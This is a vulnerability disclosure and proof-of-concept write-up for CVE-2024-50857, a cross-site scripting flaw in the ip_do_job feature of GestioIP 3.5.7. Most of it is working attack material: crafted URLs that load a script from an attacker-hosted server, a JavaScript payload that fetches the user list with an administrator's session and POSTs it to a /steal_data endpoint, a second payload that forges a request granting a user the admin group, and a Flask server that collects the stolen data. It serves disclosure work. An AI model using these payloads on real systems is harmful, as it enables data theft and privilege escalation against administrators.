 ```yaml
---
title: "CVE-2024-50857. GestioIP Vulnerability: XSS"
description: Cross-Site Scripting detected
date: 2025-01-13T12:28:27-03:00
author: Maximiliano Belino
lang: en
tags:
  - vulnerability
  - CVE
  - XSS
---
```

# CVE-2024-50857

- [Information](#information)
- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
	- [Description](#description)
	- [Prerequisites](#prerequisites)
	- [Case 1: Data exfiltration](#case-1-data-exfiltration)
		- [Usage/Exploitation](#usageexploitation)
	- [Case 2: XSS and CSRF chained](#case-2-xss-and-csrf-chained)
		- [Usage/Exploitation](#usageexploitation)
	- [OBS](#obs)
	- [Payloads](#payloads)
	- [Flask server](#flask-server)


## Information

**Description:** The `"ip_do_job"` request is vulnerable to XSS (Cross-Site Scripting), allowing data exfiltration and enabling CSRF (Cross-Site Request Forgery) attacks.<br>

**Versions Affected:** 3.5.7 <br>

## Proof-of-Concept Exploit

### Description

The `"ip_do_job"` feature of GestioIP 3.5.7 is vulnerable to XSS, leading to data exfiltration and CSRF attacks. Two examples (Case 1 and Case 2) are described below.

### Prerequisites

To successfully exploit the XSS vulnerability, the user must be part of a "User Group" that has the following three permissions:

• Show backuped device configurations (read_device_config_perm)

• Upload device configurations (write_device_config_perm)

• Administrate CM (administrative_cm_perm)

These permissions can be assigned to any group via:
Manage > User Groups > Configuration Management

![](files/CVE-2024-50857-1.png)
Then select these 3 checkboxes:
![](files/CVE-2024-50857.png)


The following groups have these permissions enabled by default for "Configuration Management":

◇ Admin

◇ GestioIP Admin


Note:

By default, the *gipadmin* user belongs to the "GestioIP Admin" group.


### Case 1: Data exfiltration

For example, an attacker can use this vulnerability to retrieve the list of users from the GestioIP application. If an administrator visits a malicious URL while authenticated to the application, the XSS payload will be triggered, causing the admin's browser to perform a GET request to the user list of the GestioIP application. Afterward, the browser will send a POST request to the attacker's server, exfiltrating the obtained user information.


#### Usage/Exploitation

To exploit this vulnerability, an attacker must host ```payload4.js``` on an attacker-controlled web server (eg. `python3 -m http.server 8090`) and also a python-flask server to receive the exfiltrated data.

To construct this URL the attacker uses these two parameters:

- `client_id=1`
- `stored_config='<script src="http://10.20.0.1:8090/payload4.js"></script>'`

Then, the malicious url is:

http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&stored_config=%27%3Cscript%20src=%22http://10.20.0.1:8090/payload4.js%22%3E%3C/script%3E%27


When an authenticated administrator clicks the malicious URL, the XSS is triggered, causing the admin's browser to collect the data and send it to the attacker's server (data exfiltration).




### Case 2: XSS and CSRF chained

The attacker has obtained a list of users using Case 1. Now the attacker assigns a user he choose the **admin** role.


#### Usage/Exploitation

To exploit this vulnerability, an attacker must host ```payload5.js``` on an attacker-controlled web server (eg. `python3 -m http.server 8090`).

To construct this URL the attacker uses these two parameters:

- `client_id=1`
- `stored_config='<script src="http://10.20.0.1:8090/payload5.js"></script>'`

Then, the malicious url is:


http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&stored_config=%27%3Cscript%20src=%22http://10.20.0.1:8090/payload5.js%22%3E%3C/script%3E%27



When an authenticated administrator clicks the malicious URL, the XSS is triggered, causing the admin's browser to make a request to the "ip_mod_user" feature in the application changing the "*group_id*" value (elevating privileges) to a target user.




### OBS

`host_id` is also a vulnerable parameter

http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&host_id='<script>alert("test")</script>'

Using parameter: `stored_config`
http://localhost/gestioip/res/cm/ip_do_job.cgi?client_id=1&stored_config='<script>alert("test")</script>'

### Payloads

`payload4.js`

``` javascript
fetch('http://localhost/gestioip/res/ip_show_user.cgi?client_id=1', {
  method: 'GET',
  credentials: 'include'
})
  .then(response => response.text())
  .then(data => {
    fetch('http://localhost:8000/steal_data', {
      method: 'POST',
      body: JSON.stringify({
        pageContent: data,
        location: window.location.href,
        userAgent: navigator.userAgent
      }),
      headers: {
        'Content-Type': 'application/json'
      }
    });
  })
  .catch(err => console.error('Error', err));
  ```


`payload5.js`

```javascript
const data = new URLSearchParams();
data.append('name', 'maxi');
data.append('group_id', '3');
data.append('email', 'maxi@test.com');
data.append('phone', '123');
data.append('comment', '');
data.append('client_id', '1');
data.append('id', '2');
data.append('B2', '');

fetch('http://localhost/gestioip/res/ip_mod_user.cgi', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
    },
    body: data
})
.then(response => {
    if (!response.ok) {
        throw new Error('Network response was not ok ' + response.statusText);
    }
    return response.text();
})
.then(responseData => {
    console.log('Success:', responseData);
})
.catch(error => {
    console.error('Error:', error);
});
```

### Flask server

`server_flask.py`

```python
from flask import Flask, request
from flask_cors import CORS
import json

app = Flask(__name__)
CORS(app)  # enables CORS for all routes

@app.route('/steal_data', methods=['POST'])
def steal_data():
    data = request.json  # data received format: JSON
    with open('data_exfiltrated.html', 'a') as f:  # open the file in append mode
        f.write(json.dumps(data) + '\n')  # write data to file
    return 'Data received and saved', 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```

